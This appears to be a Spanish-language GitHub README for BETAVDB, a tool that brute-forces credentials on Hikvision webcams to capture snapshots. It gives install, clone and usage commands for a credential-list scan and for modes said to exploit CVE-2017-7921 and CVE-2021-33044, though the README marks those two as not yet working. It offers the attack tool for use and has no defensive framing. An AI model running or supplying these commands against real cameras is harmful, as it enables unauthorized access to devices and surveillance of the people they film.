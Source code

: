 # BETAVDB

###
```bash

pip install httpx requests colorama loguru pycryptodome
```
```bash 
cd storage/download/
```
```bash
git clone https://github.com/SlickxMercy/BETAVDB
```
#### Fuerza bruta 
```bash
cd storage/download/BETAVDB 
```
```bash
python hikvision.py scan -H target.txt -u user.txt -p pass.txt -P 80 -t 15 -c 100
```
```
python hikvision.py hikvision
```
```
python hikvision.py cve2017
```
```
python hikvision.py cve2021
```

### BETAVDB 
Escáner de cámaras web y explotación de vulnerabilidades Hikvision con cuatro modos:
  1. scan: Escaneo asíncrono para obtener snapshots usando combinaciones de credenciales.(Lento)
  2. cve2017: Explotación de CVE-2017-7921 (descifrado del archivo de configuración).(aun no funciona)
  3. cve2021: Explotación de CVE-2021-33044 (bypass de autenticación).(aun no funciona)
  4. hikvision: Explotación de la vulnerabilidad de weak password en dispositivos Hikvision.(Es una versión mas optimizada y mejorada por lo cual la recomiendo)
